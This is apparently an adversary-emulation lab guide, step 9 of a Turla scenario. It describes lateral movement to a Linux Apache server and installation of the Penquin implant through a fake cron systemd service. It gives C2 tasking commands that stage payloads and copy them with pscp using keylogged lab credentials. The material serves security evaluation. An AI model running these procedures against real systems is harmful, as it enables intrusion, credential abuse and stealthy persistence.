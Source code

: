 :microphone: `Voice Track:`

Step 9 emulates Turla laterally moving to the Linux Apache server and
installing Penquin.

First, the third CARBON-DLL implant downloads Penquin and `pscp.exe` to
Adalwolfa's workstation, where `pscp.exe` is used with the credentials keylogged
in the previous step to copy Penquin over to the Apache server. Next,
CARBON-DLL downloads changes to the cron service to Adalwolfa's workstation and uses
pscp.exe to also copy the changes to the Apache server.

Lastly, CARBON-DLL downloads `plink.exe` and, using the credentials keylogged in
the previous step, executes Penquin on the Apache server.

Penquin performs the following actions:
* Unpacking a binary (the compiled sniffer) named `cron` and adding executable permissions
* Copying `cron` into `/usr/bin/` as `cron`
* Stopping the cron service
* Creating a cron service file in the `/etc/systemd/system/` folder for `systemd` to execute our cron. Note: The system executes our fake cron before the systems real cron because files located in `/etc/systemd/system/` are executed before files in the `/usr/sbin/cron` 
* Reloading and starting the cron service
* Our cron service installs the sniffer and executes real cron as a child process

In summary, Penquin installs a BPF filter and listens on the Apache server's network interface for a specific activation packet.

---

### :biohazard: Procedures

* From your Kali C2 server terminal, task the CARBON-DLL implant on Adawolfa's workstation
to download Penquin (named `tmp504e.tmp`).

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 4, "payload": "hsperfdata.zip", "payload_dest": "C:\\Windows\\Temp\\tmp504e.tmp", "cmd": "dir C:\\Windows\\Temp\\tmp504e.tmp"}'
```

* Wait 1 minute and then task the implant to download `pscp.exe`

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 5, "payload": "pscp.exe", "payload_dest": "C:\\Windows\\Temp\\pscp.exe", "cmd": "move C:\\Windows\\Temp\\pscp.exe C:\\Windows\\System32\\pscp.exe && dir C:\\Windows\\System32\\pscp.exe"}'
```

* Wait 1 minute and then task the implant to copy Penquin to the Apache web server using Adalwolfa's credentials.

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 6, "cmd": "echo y | C:\\Windows\\System32\\pscp.exe -pw Password2! C:\\Windows\\Temp\\tmp504e.tmp adalwolfa@10.20.10.23:/tmp/tmp514f524f"}'
```

* Wait 1 minute and then task the implant to download `plink.exe`

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 7, "payload": "plink.exe", "payload_dest": "C:\\Windows\\Temp\\plink.exe", "cmd": "move C:\\Windows\\Temp\\plink.exe C:\\Windows\\System32\\plink.exe && dir C:\\Windows\\System32\\plink.exe"}'
```
